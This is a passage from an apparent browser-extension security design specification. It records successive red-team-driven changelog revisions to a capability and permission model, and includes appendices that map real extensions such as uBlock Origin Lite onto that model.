5. **API bundles split (§19).** `downloads` → create (network sink) / history (source) / control / open (gated); `omnibox` → register / input (user_text source) / navigate (nav+network); `devtools` → panel-UI vs `devtools.network` (HAR+bodies) / `devtools.inspected_eval` (main-world) / `devtools.dom`.
6. **Publisher identity promoted into the model (§13).** Publisher = signing-key identity; publisher transfer/key-rotation is a grant-lifecycle event that recomputes closure and re-consents. O6 reduced to the signing *mechanism*.
7. **Remote-list update contradiction resolved (§9).** Package-pinned hashes can't update; Gosub adopts the transparency/catalog model C — the UA/store approves immutable (version, hash) revisions, the server only distributes bytes.
8. **Remote-control claims scoped (§11).** "Cannot be controlled by a remote server" is false across updates; restated as "no runtime remote-data channel can reprogram filtering between authenticated updates." `publisher_update` named as the command source every auto-updating extension holds.

---

## Changelog: v2.1.1 → v2.1.2

Driven by a gap analysis of full uBlock Origin (MV2) against registry v0.2.1: what an unmodified uBO ruleset needs that the registry could not express.

1. **`filtering.rewrite_url` added (§6, §19).** Deletion-only query-parameter removal for `$removeparam` / DNR `queryTransform.removeParams`; scheme/host/port/path byte-identical, no insertion or substitution. §5 records why substitution rewriting is an `arbitrary_network` sink even when "same-origin" (open-redirect laundering) and is therefore not offered; `$urltransform` with a replacement, `regexSubstitution`, and every other `redirect.transform` field are dropped at compile time.
2. **`filtering.scriptlet` added (§8, §19).** A browser-supplied, audited scriptlet library that lists select and parameterize under §8's existing bound (select/parameterize, never define). Main-world injection at document-start; parameters are data and never loaded or evaluated; no channel from the injected realm to the extension; `source: none, sink: none, actuator: dom`; standard tier. Extension-authored scriptlets remain `page.main_world_inject`. This removes the last routine reason a blocker holds `content_script` (Appendix C updated).
3. **§18 gains a filter-list-syntax expansion table** (`$removeparam`, `$urltransform`, `$replace`, `##+js`, `$redirect`) alongside the DNR one, and the compiler is required to report the residue of rules a grant cannot satisfy.
4. **§4 / §11 / O3 updated** with the two capabilities' CIAU rows, dialog lines, and the library-contents question.

## Changelog: v2.1.2 → v2.1.3

Two red-team passes against the v2.1.2 additions. The recurring defect both passes found: a security claim stated one layer above where it is enforced. Every fix pins the enforcement layer.

1. **`filtering.rewrite_url` re-specified as byte-splice deletion (§6).** Matching on raw key bytes; removed segments spliced out with their separator; every surviving byte unchanged. The natural parse-and-reserialize implementation percent-re-encodes, normalizes, and reorders — rule-influenced wire bytes, the §15 CRLF class. Fragment and userinfo added to the frozen set; duplicates all removed; `&` the only separator; the server-side parsing-differential residual named.
2. **`rewrite_url` re-tiered standard for all classes (§19).** A blocked request fails loudly and attributably; a rewritten one succeeds with altered meaning — a stripped OAuth `state` or CSRF token degrades security invisibly. Silent tier (never shown, never revocable by name) is wrong for that failure mode.
3. **Rewrite observability residual named (§5, §6).** The request completes, so the page and destination server can detect stripping — a per-user ruleset fingerprint, and for same-publisher traffic a mild implicit-history channel. `source/sink: none` stands for the extension, which gets no feedback.
4. **`filtering.scriptlet` labels re-derived from an admission closure (§5, §8, §19).** `source/sink: none, actuator: dom` are earned, not intrinsic. The closure, re-verified on every library change: structured arguments to pre-compiled functions (textual interpolation is code injection through the parameter channel); write targets exclude the location/cookie/window.open/src-href families and `__proto__`/`constructor` traversal (else `set-constant('location.href', …)` is a standard-tier remote redirect); synthesized responses from a fixed enum (else prevent-fetch is replace-response); no channel to ANY extension context, including isolated-world content scripts sharing the DOM; cost bounds cover argument evaluation against page-supplied input.
5. **Realm partition (§8).** Surrogates (isolated realm, §6) and scriptlets (main world) draw from one library but are separately admitted; admission as one never implies the other.
6. **Scriptlet injection bound to §13 frame-tree identity;** stated as best-effort against a hostile page, not an enforcement boundary; library versions ride browser releases (the §9 model-C property).
7. **§18 gains exception translations** (`@@$removeparam`, `#@#+js`), scoped like `filtering.allow` — this extension only.
8. **O3/O7 updated:** O3 owns proving the launch library against the closure; O7 gains the shared-main-world cross-publisher channel and rewrite's destination-server observability.

## Changelog: v2.1.3 → v2.1.4

A third pass, attacking the v2.1.3 fixes themselves. Theme: v2.1.3 pinned the labels but under-specified the checkers; these bind the checkers.

1. **rewrite_url: match separated from emit (§6, §19).** v2.1.3's raw-byte matching (adopted to stop wire-byte leakage) reopened tracker evasion — `%66bclid` slips a `$removeparam=fbclid` rule the server still decodes. Fix: match on a normalized scratch copy (decoded, `+`→space, `&`/`;` separators), splice the corresponding byte ranges from the untouched original. Normalize to decide *what* to remove; emit only original bytes.
2. **scriptlet write-target rule inverted to an allowlist (§8, §19).** A denylist of the DOM's write-to-network surface (innerHTML, document.write, sendBeacon, on* handlers, …) is open-ended — the same wildcard trap §18 forbids for capabilities. An operator may write only a positive schema: own data property, primitive value, non-DOM/non-navigation object, no prototype-chain segment.
3. **scriptlet no-channel restated as byte provenance (§8, §19).** "No effect a co-resident context can read" is vacuous — scriptlet effects are DOM-observable by design. The real invariant: no operator writes a value *derived from page state it read*; rule-supplied constants are fine, laundered page data is not.
4. **scriptlet closure bound to the §14 untrusted-artifact model (§8, §14, §19).** The closure is re-validated by the renderer-side injector at document-start, not only at compile time — a compromised compiler cannot emit an unlisted operator or a schema-violating argument into the scriptlet table. §14's validation list gains a scriptlet-section entry.
5. **Per-operator arity/type schema (§8).** Structured passing stops textual injection but not arg-count/type confusion or a malicious `toString`; the browser coerces each argument to its declared primitive kind before the scriptlet runs.
6. **Library governed like a remote ruleset (§8, O3).** The browser-shipped library is a policy object as powerful as a §9 list; it ships each release with its machine-checked closure proof as a versioned auditable artifact, operator semantic changes being a transparency event — governance, not the adjective "audited."
7. **rewrite_url signed-query integrity residual named (§5, §19).** Stripping a parameter the server signed or nonces breaks the request; the browser cannot distinguish it from a tracker by name, so the standard-tier dialog line is the only defense — surfaced, not solved.

## Changelog: v2.1.4 → v2.1.5

A fourth pass, which found — against the prediction that only residuals remained — one real standard-tier sink that three prior passes missed by hardening only the target side of scriptlet writes.

1. **scriptlet write-VALUE allowlist (§8, §19).** The target-shape allowlist (v2.1.4) blocks `location.href` but not writing an arbitrary string to a plain page property the page itself later pipes to a sink (`someLib.cfg.returnUrl`). Arbitrary value + page gadget = a per-site sink reaching through page code. Fix: a write operator's value argument is a fixed vocabulary of defusing constants (`false`/`null`/`noopFunc`/`emptyObj`/…), never an arbitrary rule-supplied string — as uBO's set-constant already enforces. Targets constrained by shape; values by vocabulary.
2. **byte-provenance rule reworded to MOVEMENT (§8, §19).** "Never write a value derived from page state" over-bans json-prune (which returns a pruned page object to the page's own channel, no new path). Restated: no operator MOVES page data to a location the page did not itself expose it to; in-place transformation on an already-exposed channel is fine.
3. **rewrite_url decode pinned to one pass (§6).** A server decodes once, so `%2566bclid` must not match `fbclid`; recursive decoding would over-match.
4. **rewrite_url `;`-separator named as a heuristic (§6).** Treating `;` as a separator over-splits against servers that honor only `&`, mangling a legit value; the separator set is a tunable guess about the server's parser, bounded to integrity/availability by the subsequence property (§5), not a security boundary.

## Changelog: v2.1.5 → v2.1.6

Two external red-team passes (ChatGPT, DeepSeek) against v2.1.4, folded forward onto v2.1.5. Both converged on several model-level gaps; the convergent and highest-severity items are model changes, the remainder honesty corrections and named proof obligations.

1. **Readable egress is a `remote_server` command-source (§5).** Axis 2 no longer requires a *mutation* capability: `egress + tabs.navigate` (or downloads/notifications/cookie-write/omnibox-navigate) is remote control of that actuator directly. A mutation capability is additionally required only for the declarative `filter_policy` actuator.
2. **An artifact never carries authority (§14).** A structurally valid table can still assert out-of-scope authority (`bank.example` under an `example.com` grant). Every consumer — Sonar, the renderer injector, the header and redirect engines — intersects the artifact against a trusted, separately-produced `(extension_id, capability, granted_scope)` envelope; the compiler cannot emit into the grant/egress namespaces at all. Generalizes the per-operation broker check to directly-executed tables. Plus: the compiler never holds the writable memfd (validate/seal TOCTOU); overflow-safe offset arithmetic; validator named a formal-verification target.
3. **Scriptlet closure adds control-dependence non-interference (§8).** Byte-provenance/movement is necessary but not sufficient — `if secret(page){x=false}` leaks a bit with no page byte written. No operator's extension-observable effect may depend on page state. And the write allowlist is reconciled with reality: it governs set-constant-shaped data writes only; function-wrapping (prevent-fetch) and accessor-installing (abort-on-read) operators are a separate, per-operator-proven class. Static-string paths only (no Symbol/computed keys).
4. **Stable publisher principal (§13).** Publisher = a store-bound organizational identity, not a signing key (else a controller shards into two keys to escape same-publisher composition). Key rotation up a signed continuity chain preserves the principal and does not re-consent; only genuine ownership transfer changes it; an unbacked rotation is treated as transfer/compromise.
5. **rewrite_url tokenizes on raw separators before decoding (§6).** Decoding-first could forge a phantom separator inside a value and splice the wrong range (`?a=%26fbclid=x`). Raw-`&` tokenization first, decode per-token for matching only; `;` is deliberately not a separator (documented parser choice). Closes both reviewers' rewrite-differential cases.
6. **Stats budget pooled, not per-extension (§7).** A per-extension budget is defeated by 100 one-rule extensions probing 100 sites in parallel; the budget depletes against a global per-profile pool.
7. **cookies.write gains a session_state sink + actuator (§5, §19).** A written cookie is a delayed outbound channel; `remote_server × session_state -> remote.session_control`.
8. **Redirects re-authorize host scope, not only address space (§15).** Every hop re-runs both `capability_scope_allows(canonical_origin)` and `address_space_allows(resolved_socketaddr)`, so a redirect off the granted origin set cannot widen an own-host grant to arbitrary egress.
9. **§5 label algebra closed (§5, §19).** The registry's ad-hoc atoms (`probe`, `download_urls`, `user_text`, `browser_traffic`, `native_process`, `enterprise_policy`, `publisher_update`, `session_state`) are promoted to enum members; §19 is mechanically validated against the enum so "composes automatically" is actually true.
10. **`filtering.scriptlet` tiered loud until proven (§8, §11, §19, O3).** The closure's control-dependence non-interference clause rests on per-operator audit, not a decidable check, so the honest default is loud (explicit consent, per-site revocable, derived warning); it relaxes to standard operator-by-operator as the O3 proofs land. The uBlock-class dialog gains a second `!` line meanwhile, which returns to a `✓` once the library is proven. A conservative call following the two reviewers' point that the standard tier rested on an undischarged obligation.
11. **Honesty corrections.** §10: the CSP stops remote code but not a packaged *interpreter* of remote data — containment is the capability model, not the CSP. §9: model A/C contradiction resolved (catalog-signed revisions, targeted-staleness freshness rule, §11 guarantee restated). §15: "never response bodies" scoped to the filter path (devtools/content_handler/capture do see bodies). §11: summary lines are product glosses over effect-level grants, and the dialog is not the security boundary. §13: revocation aborts in-flight operations by epoch. §16: SCM_RIGHTS preferred over randomized handles. O3 stale "denylist" fixed; O8 added for the enforcement proof obligations.

## Changelog: v2.1.6 → v2.1.7

Three external passes against v2.1.6: ChatGPT and DeepSeek found new issues; Gemini ran a step-by-step validation that surfaced none (independent corroboration of the v2.1.6 fixes). Folded forward:

1. **Registry now carries the actuator labels the closure needs (§5, §19).** v2.1.6 claimed §19 was mechanically validated against the §5 algebra, but almost no entry stated an `actuator`, so `egress + tabs.navigate` could not derive `remote.navigation_control` from the registry the detector reads — a false-negative in a derived warning. source/sink/command-source/actuator are now mandatory structured fields; actuators added across tabs/omnibox/DOM/UI/filter-policy/downloads/native-messaging; prose source labels normalized to enum atoms; `extension_bridge` added to the actuator enum; Axis 1 given a product for every source atom.
2. **Scriptlet proof sharpened for transitive page gadgets (§8, §19, O3).** A vocabulary-safe write (`cfg.telemetryEnabled = true`) can still drive page code to a sink; §5 labels by effect, so this is a sink. The O3 proof must be transitive, or standard-tier operators restricted to suppressive/monotonic semantics. And the enforcement is split: the renderer re-validates STRUCTURAL properties from the artifact, but SEMANTIC non-interference is proven at library-build time and carried as a proof the renderer verifies, not re-derives (the renderer cannot re-prove a semantic property from an (op, args) tuple).
3. **Cookie scope algebra (§3, §19).** Cookies are not origin-scoped; `cookies.write` is permitted only if every origin the cookie can later be emitted to is in the grant (host-only default; `Domain=` needs the wider scope), so a `foo.example` grant cannot write `.example.com` state emitted to `bank.example`.
4. **Private browsing closed under the capability set (§7, §12).** `isolated` becomes a per-capability intersection (denied / partitioned / shared-read-only / spanning); the stats budget and block counter are partitioned regular/private; `native_messaging` denied in private (shared native process is a bridge).
5. **Cross-publisher main-world channel treated as a communicating set (§5, O7).** The shared page realm is browser-provided, so two extensions that both reach it compose in §5; narrowed by per-document property-name randomization and the loud tiers rather than left wholly to O7.
6. **Remote-ruleset model-A residuals removed (§9, §11, §19).** The package-frozen-hash wording (model A) is replaced by catalog model C throughout; a freshness/max-age rule plus catalog-controlled distribution/mirrors closes targeted-staleness; §11's "no remote server can change filtering between updates" retired for "no PER-USER filtering," since catalog revisions are legitimate runtime changes.
7. **Navigation scheme allowlist (§19).** `tabs.open/navigate` and `omnibox.navigate` accept web schemes only; `javascript:` never (it is main-world execution, not navigation); file/internal/extension schemes need separate authority.
8. **One extension never filters another's traffic (§15).** Filtering tables apply to page traffic, never to another extension principal's requests. Plus: authorization is per logical request, not per socket (connection reuse/coalescing/proxies never substitute for the check); the compiler-DoS-before-validation window closed by enforcing §2 budgets during assembler ingestion; revocation restated at per-capability commit points (stops the next effect, cannot unsend the last); mmap made a validated-per-platform performance path; the dialog-is-not-the-boundary point lifted to the Overview.

## Changelog: v2.1.7 → v2.1.8

A self-red-team of the v2.1.7 additions. Recurring defect found: three of the v2.1.7 fixes offered clean-looking resolutions that do not survive a second look. All are corrections to v2.1.7 material; no new capability or tier changes.

1. **Ill-typed Axis-1 product removed (§5).** `session_state × sink -> session.exfiltration` put a sink/actuator label on the source side; a written cookie carries data, it acquires none. Its Axis-1 role is as the sink in `page_content × session_state-sink`. The build-step type validation is precisely what catches this class.
2. **Remote-list staleness response inverted (§9).** Hard-failing the fetch past max-age fails filtering OPEN — the withholding server's preferred outcome, and strictly worse than mild staleness for a blocker. Replaced with: keep stale rules, surface the staleness in browser-owned attributed UI, retry via mirrors, flag degraded after a bounded grace window. The forbidden state is invisible staleness, not staleness.
3. **"Suppressive semantics" shortcut deleted (§8, O3).** Suppressing a page's own guard enables the guarded action (paywall, consent gate, anti-adblock probe); monotonic-in-code-runs is not monotonic-in-effects, so the shortcut to standard tier was unsound. The transitive-effect proof is the only path, which further grounds the loud tier.
4. **Private-browsing matrix reduced to denied/partitioned (§12).** `shared-read-only` was itself a linking channel in the deanonymizing direction — read-only is still a channel — contradicting the guarantee the matrix was built to enforce.
5. **Property-name randomization claim retracted (§5, O7).** Main-world receivers enumerate globals and rendezvous on marker values; content scripts share the DOM, not `window`, so name randomization never touched their channel. The shared page realm is stated as essentially open between co-resident extensions; the controls are the loud tiers, the §8 no-page-derived-writes rule for library operators, and store co-install signals.
6. **Navigation scheme allowlist enumerated (§19).** "Web schemes only" was underspecified exactly at the dangerous cases; now http/https by name, with `data:` (top-level `data:text/html` is script execution) and `blob:` excluded explicitly.
7. **Initiator attribution pinned (§15).** Requests from an extension's injected content script/frame/worker are extension-principal traffic (protected from other extensions' filtering, charged against that extension's egress grants); the page's own requests remain page traffic even on injected-into pages.

## Changelog: v2.1.8 → v2.1.9

Three external passes against v2.1.8 (ChatGPT, DeepSeek, Gemini). The load-bearing new result is a widened definition of a sink; the rest are the document's own newer principles applied to registry entries that had not caught up, two stale one-liners that reversed prior fixes, and theoretical limits made honest.

1. **Sink = creation OR externally-observable outbound MUTATION (§5).** A filter predicate over initiator/history/page-derived state that mutates outbound traffic (a conditional header set/remove, a rewrite) leaks that predicate to the destination with no request created and no egress granted — so it is a source. Standard-tier header/rewrite mutations must be unconditional; conditioned ones compose as sources and are tiered loud. Generalizes the §6 rewrite-observability concession to all outbound mutation. *(ChatGPT #1)*
2. **Stale §19 one-liners that reversed v2.1.8 fixes, corrected.** `remote_rulesets` said "reject on stale" (fails filtering open — the withholder's goal); now keep-stale + visible flag + mirrors + bounded grace. `rewrite_url` said "no decoding" while the prose said decode-once; now the single compact rule (tokenize raw → decode once for match → splice original). *(ChatGPT #5, #6)*
3. **Type/label errors fixed (§19).** `proxy_control` retyped to real atoms (`source: browser_traffic`, dropping the non-atom `publisher_proxy`); `tabs.organize` gains `actuator: browser_ui` (egress + organize = remote tab control, an Axis-2 hit it was missing); `forms.fill` gains `actuator: dom` with its standard tier now explicitly resting on a fresh browser gesture + no extension credential choice. *(ChatGPT #3, #4, #7)*
4. **`dom.declarative_actions` gated on a transitive-effect proof (§19).** "dismiss_consent" can fire a beacon or navigate; naming an op semantically does not bound its effect any more than for a scriptlet, so page-participating ops are loud, only provably-passive ones standard. *(ChatGPT #2)*
5. **Scriptlet closure extended: timing + combination + Rice (§8, O3).** Operators reading page data must be constant-time/instruction-budgeted (timing is extension-observable); the transitive proof is closed under co-injected operator combinations; and by Rice's theorem the proof exists only for operators boundable independent of page-defined accessors, so the un-provable majority stay **permanently** loud — standard is for the provable subset, not an eventual home for all. *(Gemini, DeepSeek #2, #3)*
6. **`isolated_network` narrowed to extension-principal egress (§12).** A page's own egress of extension-planted state would launder around "no network"; isolated_network now also denies the page-write capabilities that enable it, and its guarantee is stated as no extension-principal AND no extension-drivable page-mediated egress. Partitioned private state is a separate store, never a guessable prefix. *(ChatGPT #8, DeepSeek #7)*
7. **Egress transport set closed by effect (§15).** WebRTC/WebTransport/QUIC/raw sockets route through the same policy or are denied — no HTTP-centric exemption. *(Gemini)*
8. **Header hardening (§15).** Headers emitted per-line, never comma-combined (closes value-combination injection); modifiable safe-list positively enumerated and versioned so a new security header (CSP/COOP/COEP/Permissions-Policy/…) is protected by default. *(DeepSeek #8, ChatGPT)*
9. **Grant-envelope placement pinned (§14).** The compiler never self-filters; the trusted consumer applies the envelope at the point of effect against the effective destination, per rule and per effect. *(DeepSeek #1)*
10. **Communicating set = DOM-connected frame tree, not one document (§5, O7).** *(DeepSeek #5)* **New residuals named (O9):** socket-routing TOCTOU, the remote-list grace window, and the revocation commit residual — bounded, not closed. *(DeepSeek #6, Gemini)*
11. **Appendix D drafted — the O3 provable-operator shortlist.** Turns "loud until proven" into a finite verdict list: `set-constant`/`set-attr`/`remove-attr` with fixed-enum values and unwrappable targets clear the four gates and reach standard (integrity-only by the value-vocabulary lemma), while every page-data-reading operator (`json-prune`, `prevent-fetch/xhr`, `no-setTimeout-if`, `abort-on-*`) is permanently loud. Tier is per ruleset; a stock list mixes both, so it lands loud.

---

# Appendices

Appendices A–C are carried as empirical grounding. Capability names map to registry v0.2.1 (§19); where older names appear in prose, read their v2.1 successors (`network.fetch_*`→`network.egress_*`, `tabs.metadata`→`tabs.snapshot`/`tabs.events`, `filtering.redirect`→`filtering.redirect_resource`/`_surrogate`, `filtering.modify_headers`→`filtering.headers.*`, `styles.inject`→`styles.inject_safe`/`_raw`, `content_script.active_tab` is standard not silent). A worked v2.1 manifest set — an ad blocker and a password manager expressed in this registry with their derived-authority dialogs — accompanies this document as `manifests-v2.1.md`.

## Appendix A: Capability Test Suite

The following ten real-world extensions are deliberately chosen to vary functionality as much as possible. Together they act as a test suite for the capability model: a design that handles all ten has covered most of the extension ecosystem.

| # | Extension | Capability axis stressed |
|---|-----------|--------------------------|
| 1 | uBlock Origin | Declarative network + cosmetic filtering |
| 2 | Bitwarden | Secret storage, form detection, autofill |
| 3 | Consent-O-Matic | Active DOM interaction (clicking cookie banners) |
| 4 | Dark Reader | Global style rewriting, reading computed styles |
| 5 | Tampermonkey | Arbitrary user-supplied script injection |
| 6 | Grammarly | Reads all text input, sends contents to remote servers |
| 7 | JSON Formatter | Response rendering / content-type takeover |
| 8 | Vimium | Global keyboard capture + overlay UI, no network access |
| 9 | OneTab | Tab metadata and session state only |
| 10 | MetaMask | Injects API into page JS world, key custody, permission prompts |

### Tier 1: Fits the Restricted Model Cleanly

**uBlock Origin (1)** is the happy path: declarative rules evaluated by the native filter engine, browser-rendered statistics, no page access required for core functionality.

**OneTab (9)** is the minimal profile: tab metadata and private storage, zero page content access. It demonstrates that `tabs.metadata` should be a distinct capability from `tabs.content`.

**Consent-O-Matic (3)** splits in two. Hiding cookie banners is ordinary cosmetic filtering. Automatically clicking "reject all" is not expressible as filtering — it requires either a new declarative primitive (declarative DOM actions) or a content script. This is a genuine design question:

```text
dom.declarative_actions   click / select matching elements
                          per compiled rules, no script access
```

### Tier 2: Broad Access, Narrow Purpose

**Bitwarden (2)**, **Dark Reader (4)**, and **Vimium (8)** all need access to every page, but each for one narrow purpose. They test whether Gosub can define mid-tier capabilities instead of falling back to "content scripts everywhere":

```text
forms.autofill       detect and fill credential fields
styles.inject        install page-wide stylesheets
styles.read          read computed styles
input.global_keys    capture keyboard input, render overlay UI
```

Each of these is far less dangerous than arbitrary content scripts, and each can be described honestly in an install dialog.

### Tier 3: Irreducibly Powerful

**Tampermonkey (5)** is arbitrary code execution by design. **Grammarly (6)** is "read everything the user types and transmit it" by design. **MetaMask (10)** injects an API into the page's JavaScript world and custodies signing keys.

The capability model cannot neuter these. What it can do is:

- make their power legible in the installation dialog;
- make it revocable per-site;
- ensure that *other* extensions do not need equivalent power.

```text
This extension can read and modify everything on all pages,
and can send what it reads to remote servers.
```

A user who accepts that sentence for Grammarly has made an informed choice. The failure mode of MV2 was that an ad blocker required the same sentence.

### Tier 4: Missing Category

**JSON Formatter (7)** exposes a category the model above does not cover: response rendering. The extension takes over display of a response instead of the browser's default handling.

A natural fit is a content-handler capability scoped by MIME type:

```text
content_handler:
    types: ["application/json"]
```

Scoping by MIME type keeps this narrow: a JSON viewer registered for `application/json` never sees HTML pages.

### Additional Cases Worth Tracking

```text
SingleFile      full-page capture: entire DOM + subresources
Screenshot      tab pixel capture (a capability nothing above needs)
LocalCDN        redirect-to-packaged-resource only; fits the
                constrained-redirect rule exactly
Stylus          user CSS; declarative subset of Dark Reader
```

### Summary



The design goal restated through this lens:

> **Most extensions should live in Tiers 1, 2, and 4. Tier 3 should be rare, loud, and honest.**

---

## Appendix B: Extended Extension Survey

Twenty-five additional popular extensions, extending the test suite. Tier numbers refer to the taxonomy in Appendix A.

| # | Extension | Requires | Tier |
|---|-----------|----------|------|
| 11 | Google Translate | Selection context menu, page text rewrite | 2 |
| 12 | Honey / Rakuten | Read checkout pages, inject UI, fetch coupon data | 3 |
| 13 | Momentum | New-tab page override | 2 |
| 14 | Pocket / Raindrop | Send URL + title to service, OAuth | 2 |
| 15 | Notion Web Clipper | Page content capture, OAuth | 2–3 |
| 16 | React DevTools | DevTools panel, inspect page JS state | 3 (dev) |
| 17 | Wappalyzer / BuiltWith | Read DOM + response headers | 3 |
| 18 | NoScript | Per-site script blocking | 1 |
| 19 | Privacy Badger | Learns trackers from observed traffic | conflict |
| 20 | Ghostery | Tracker blocking + per-site reporting | 1 + stats |
| 21 | Decentraleyes | Redirect CDN requests to packaged resources | 1 |
| 22 | User-Agent Switcher | Request header rewrite | 1 |
| 23 | ModHeader | Arbitrary header add/remove per rules | 1 |
| 24 | Redirector | User-defined URL redirects | 1 |
| 25 | SponsorBlock | Video player control, crowdsourced segment data | 2–3 |
| 26 | Return YouTube Dislike | DOM injection + fetch from own API | 2–3 |
| 27 | Video DownloadHelper | Sniff media requests, downloads API | conflict |
| 28 | GoFullPage / Awesome Screenshot | Tab pixel capture | 2 (new) |
| 29 | Loom | Tab/screen + microphone recording | 2 (new) |
| 30 | ColorZilla | Pixel eyedropper, clipboard write | 2 (new) |
| 31 | Read Aloud / Speechify | Page text extraction, TTS | 2 |
| 32 | Mercury / Reader View | Extract article, re-render page | 4 |
| 33 | Zotero Connector | Page scraping + native messaging to desktop app | 3 (new) |
| 34 | FoxyProxy / VPN extensions | Proxy settings control | new |
| 35 | Checker Plus for Gmail | OAuth, notifications, alarms, badge | 2 |

Notable result: NoScript — long considered one of the most powerful extensions — reduces to Tier 1 under this model. Per-site script blocking is expressible entirely as filtering rules. Ghostery's per-site dashboards are the aggregate `stats.read` case from the statistics section.

### New Capability Gaps

This survey surfaces five capability categories the first ten extensions did not:

#### 1. Own-Service Networking

Honey, SponsorBlock, Return YouTube Dislike, and Pocket all need to make requests to **their own backend services**. This is entirely different from observing page traffic, yet traditional host permissions bundle the two together.

```text
network.fetch_own:
    hosts: ["api.sponsorblock.example"]
```

The install dialog can then distinguish:

> This extension talks to sponsorblock.example.

from:

> This extension watches your browsing.

#### 2. Scoped Observation

Video DownloadHelper and Privacy Badger genuinely cannot function without observing traffic. But neither needs full observation:

```text
network.observe:
    types: ["media"]          # Video DownloadHelper

network.observe_aggregate:
    granularity: "etld+1"     # Privacy Badger
    strip: ["path", "query"]
```

Observation should not be binary. Type-scoped and aggregated observation can rescue legitimate use cases without granting a full request logger.

**Privacy Badger is stated plainly (v2):** Gosub does not support heuristic tracker learning at any silent or standard tier. Privacy Badger's learning mode works exactly as well as its observation grant, which is loud — aggregated eTLD-level observation may narrow that grant, but the incompatibility below the loud tier is a deliberate trade of this architecture, not an open compromise.

#### 3. Capture

Screenshot tools, Loom, and ColorZilla need tab pixel data:

```text
tabs.capture_pixels
tabs.capture_video
media.microphone
```

These are inherently loud, easy to describe honestly, and needed by nothing in Tiers 1 or 4.

#### 4. Out-of-Browser Bridges

Native messaging (Zotero, password manager desktop apps) and proxy control (FoxyProxy, VPN extensions) punch through the browser boundary into the OS or network configuration:

```text
native_messaging:
    hosts: ["org.zotero.connector"]

network.proxy_control
```

These are Tier-3-adjacent regardless of design. The model's contribution is making them separate, named, individually-granted permissions rather than implicit bundles.

#### 5. Browser-UI Surfaces

New-tab override, DevTools panels, context menus, notifications, omnibox keywords. Low risk; primarily API surface to implement over time:

```text
ui.newtab_override
ui.devtools_panel
ui.context_menu
ui.notifications
ui.omnibox
```

### Revised Summary



The pattern across all 35 extensions: the overwhelming majority need either declarative rules, one narrow capability, or their own backend — not arbitrary access. Full-page content scripts remain necessary for a minority, and full traffic observation for almost none.

---

## Appendix C: Worked Translation Example — uBlock Origin Lite

A concrete test of the translation model in §14, using the live uBO Lite chromium manifest (MV3, v2026.804.1652, 421 lines). The question: what must change to run it on Gosub?

**Answer: nothing.** The manifest installs via translation alone. An optional `gosub` key can narrow the grant further.

### Keys That Translate Cleanly

```text
declarative_net_request        ->  filtering.block / .allow /
  (55 packaged rulesets:           .redirect_resource — explicit,
  (55 packaged rulesets:           Rulesets compile directly into
   ublock-filters, easylist,       the native filter engine. These
   easyprivacy, regional lists)    packaged JSON files are already
                                   the compiled-ruleset artifact
                                   that the broker installs into
                                   the network layer.

action (popup, icons)          ->  ui.toolbar
commands (zapper, picker)      ->  ui.commands
storage + unlimitedStorage     ->  storage.private
                                   ("unlimited" becomes resource
                                   management, not a permission)
alarms                         ->  scheduling
background.service_worker      ->  event-driven extension worker
```

### activeTab: Worth Adopting As-Is

`activeTab` grants temporary, user-gesture-scoped access to a single tab. It is how uBO Lite's element zapper and picker work without permanent page access.

This maps naturally onto the capability model as a first-class temporal capability:

```text
content_script.active_tab:
    scope:    single tab
    trigger:  explicit user gesture
    lifetime: until navigation
```

### Chrome-isms That Translate to Nothing

```text
offscreen                aid for service-worker DOM limitations;
                         unnecessary if the Gosub worker runtime
                         provides what workers actually need
incognito: "split"       -> extension.private_browsing: isolated (see section 12)
minimum_chrome_version   not applicable
```

### The Interesting Cases

**`host_permissions: ["<all_urls>"]` + `scripting`.** This pair is why even the declarative uBO needs broad grants on Chrome: cosmetic filters and scriptlets are injected through the scripting API. Under this model the pair collapses:

- generic cosmetic rules -> native cosmetic engine (no page access);
- procedural filters -> native procedural DSL (§8), no page access;
- scriptlets in the browser library -> `filtering.scriptlet` (standard), no page access;
- only scriptlets *outside* the library -> `content_script` / `page.main_world_inject`, per-site revocable.

The broad host grant disappears from the install dialog entirely.

**`userScripts`.** uBO Lite uses this for custom user filters that require injection. This confirms the gated user-scripts capability is not only for userscript managers — uBO itself is a customer.

**`web_accessible_resources`.** The packaged surrogate list — `noop.js`, `googletagservices_gpt.js`, `google-analytics_ga.js`, `1x1.gif`, and several dozen more — is exactly the constrained-redirect target set required by the observe/control separation. The security rule falls out of an existing manifest key:

> **`filtering.redirect` may only target resources declared in `web_accessible_resources`.**

This constrains redirect targets using an existing manifest concept; combined with the static-target and unobservable-load rules of section 6, it closes the redirect feedback channel.

### The Narrowed Gosub Grant

```json
"gosub": {
  "capabilities": [
    "filtering.block",
    "filtering.redirect_resource",
    "filtering.redirect_surrogate",
    "filtering.cosmetic",
    "filtering.headers.request.remove",
    "storage.private",
    "ui.toolbar",
    "ui.commands",
    "stats.display",
    "filtering.procedural",
    "filtering.scriptlet",
    "filtering.rewrite_url",
    "content_script"
  ],
  "redirect_resources": "web_accessible_resources"
}
```

### Net Result vs Chrome

```text
Removed:   <all_urls> host permissions
Gained:    stats.display — the blocked-count badge that Chrome
           requires a local build with an extra permission to show;
           filtering.rewrite_url — $removeparam with no page-access
           grant
Remaining: two loud grants, both revocable per site — content_script
           (scoped to the scriptlets the browser library does not
           carry; empty for a stock uBO/uBOL set once the library
           covers it, O3), and filtering.scriptlet itself, loud until
           the O3 per-operator proofs relax it to standard — and per
           Appendix D only a list confined to write-only fixed-enum
           operators earns standard; a stock list using json-prune/
           prevent-fetch stays loud. Still no
           <all_urls>, no page-content source, no arbitrary egress —
           the loud grants are scoped and reviewed, not the MV2
           read-everything bundle
```

The installation dialog changes from:

> Read and change all your data on all websites.

to an honest description of what an ad blocker does.

---

## Appendix D: The O3 Provable-Operator Shortlist

O3 (and §8) leave `filtering.scriptlet` **loud until per-operator proofs exist, then standard**, bounded by Rice's theorem: transitive non-interference against arbitrary page code is undecidable, so only operators whose effect is boundable *independent of page-defined accessors* can be proven. This appendix draws the line concretely — which library operators can reach standard tier, which are permanently loud, and why — so "the proofs" is a finite checklist, not an open promise.

The tier is computed **per ruleset**, not per capability: a `filtering.scriptlet` grant whose rules use only shortlist operators is standard; one rule using any loud operator makes the whole grant loud. The dialog reflects the operators actually used.

### The proof gate

An operator is admissible to **standard** only if it clears all four, under *any* rule parameterization:

```text
G1 reads no page DATA        the operator does not read page content,
                             URLs, request bodies, callback source, or
                             any value the page produced. (Matching a
                             STATIC selector against DOM STRUCTURE is
                             allowed — structure is not a secret the way
                             innerHTML is — but reading node CONTENT is
                             not.) This closes the source label AND the
                             read-length timing channel (DeepSeek/§8) in
                             one stroke: you cannot leak by timing a read
                             you never perform.
